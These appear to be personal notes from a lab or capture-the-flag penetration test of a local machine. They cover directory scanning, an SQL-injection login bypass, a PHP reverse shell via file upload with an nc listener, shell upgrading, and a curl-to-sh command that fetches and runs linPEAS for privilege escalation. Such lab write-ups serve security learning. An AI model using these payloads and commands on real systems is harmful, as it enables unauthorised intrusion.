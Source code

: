   ```bash
# + 8254 requests: 0 error(s) and 12 item(s) reported on remote host
# + End Time:           2024-02-11 11:13:26 (GMT-5) (51 seconds)
# ---------------------------------------------------------------------------
# + 1 host(s) tested

 ```
  - phpmyadmin

  ```bash
dirb http://192.168.57.7 /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r 
# -r don't search recursively

  ```

* http://192.168.57.7/academy
	* login portal. 
		* try SQL injection
		* `' or 1=1#` => works
* http://192.168.57.7/academy/my-profile.php
	-  Student Name - Rum Ham; 
	- Student Reg No - 10201321; 
	- Pincode - 777777; 
	- CGPA - 7.60.
	* option to upload profile pic
		* try reverse shell
			* search php reverse shell
			* https://www.revbashs.com
- listen
	- `nc -lvnp 3333`
- upload file
- upgrade shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z
echo $TERM
stty -a
stty raw -echo; fg # zsh specific
# enter

# use vars from previous output
$ export bash=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```

```bash
whoami
# www-data
```



- privesc needed
	- use linpeas for automatic scanning
	- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- download
```bash
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

# Local network
```